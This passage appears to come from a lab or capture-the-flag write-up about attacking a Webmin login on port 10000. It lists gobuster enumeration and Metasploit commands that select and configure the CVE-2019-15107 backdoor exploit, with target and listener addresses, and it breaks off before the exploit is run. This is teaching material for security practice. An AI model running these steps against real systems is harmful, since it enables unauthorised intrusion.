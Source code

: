### 🚪 Login Interface
**🎯 Findings:**
- Webmin administrative interface
- Login form requiring credentials
- No obvious default credentials work

### 📁 Directory Enumeration
```bash
gobuster dir -u https://<TARGET_IP>:10000 -w /usr/share/seclists/Discovery/Web-Content/big.txt -k
```

**🔍 Results:** Standard Webmin directories found, but no immediate vulnerabilities

## 💥 Webmin Exploitation

### 🔍 Vulnerability Research
Since directory enumeration and credential guessing failed, research known Webmin vulnerabilities.

### 🎯 Metasploit Framework
```bash
# Start Metasploit
msfconsole

# Search for Webmin exploits
search webmin
```

### 📋 Available Exploits
**🎯 Key Findings:**
- Multiple Webmin exploits available
- Look for exploits that **don't require authentication**
- **CVE-2019-15107** - Webmin backdoor (excellent choice)

### 🚀 Backdoor Exploitation

#### 🔧 Exploit Selection
```bash
# Use the backdoor exploit
use exploit/linux/http/webmin_backdoor

# Show exploit information
show info

# Show required options
show options
```

#### ⚙️ Configuration
```bash
# Set target host
set RHOSTS <TARGET_IP>

# Set local host (your IP)
set LHOST <YOUR_IP>

# CRITICAL: Enable SSL
set SSL true

# Verify settings
show options
```
